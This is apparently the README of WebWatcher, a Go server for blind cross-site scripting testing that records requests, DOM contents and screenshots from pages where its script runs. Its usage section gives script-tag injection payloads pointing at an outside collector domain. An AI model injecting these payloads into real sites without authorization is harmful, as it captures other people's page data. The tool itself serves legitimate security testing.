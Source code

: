 # WebWatcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  
1. Install  
```
go install github.com/pichik/webwatcher@latest
```
2. Set permissions for ports 
```
sudo setcap CAP_NET_BIND_SERVICE+ep ~/go/bin/webwatcher
```

3. Setup `.wwconfig` and add it to your home directory.  
4. Make sure that `assets` and `templates` are in the directory specified in config.  

Login to your website with /login?token=[token]  

## Usage
After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](_img/results.png)  


### Collecting simple request data from path you specified in config  
This endpoint will contain response specified in `assets/extensions.json` file  

**Example:**  
Set `"CollectorPath":"examplepath"` in `.wwconfig`  
Set `.js` extension with payload `alert(1)` in `assets/extensions.json`  
Insert this payload to the website, alert will popup.  
`<script src=https://domain.com/examplepath.js></script>`  

### Collecting data from blind XSS  
You can find detailed report for your XSS, with DOM and Screenshort.
`<script src=https://example.com></script>`  
![blind xss](_img/blindxss.png)  



